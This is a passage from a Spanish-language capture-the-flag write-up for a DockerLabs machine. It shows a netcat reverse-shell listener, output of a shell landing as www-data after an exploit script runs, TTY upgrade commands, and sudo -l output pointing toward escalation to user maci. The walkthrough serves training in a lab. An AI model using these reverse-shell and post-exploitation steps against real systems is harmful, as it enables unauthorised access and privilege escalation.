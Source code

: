 > gdb (pwndbg)

```shell
run
```

> host

```shell
nc -lvnp <PORT>
```

Y finalmente en otra terminal de nuestro `host` tendremos que ejecutar el script y asi obtender la shell:

```shell
python3 step4.py
```

Y si nos vamos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 39542
whoami
www-data
```

## Escalate user maci

Primero sanitizaremos la shell (TTY):

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on dockerlabs:
    (maci) NOPASSWD: /bin/python3 /home/maci/.time_seri/time.py
```

